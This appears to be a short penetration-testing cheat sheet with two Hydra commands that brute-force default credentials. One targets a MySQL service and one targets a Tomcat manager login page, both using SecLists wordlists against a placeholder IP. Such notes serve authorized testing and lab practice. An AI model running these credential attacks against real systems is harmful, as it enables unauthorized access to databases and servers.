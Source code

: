 # hydra mysql default credentials
```bash
hydra $IP mysql -C /usr/share/seclists/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -t 1
```

# hydra tomcat http default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt $IP http-get /manager/html
```
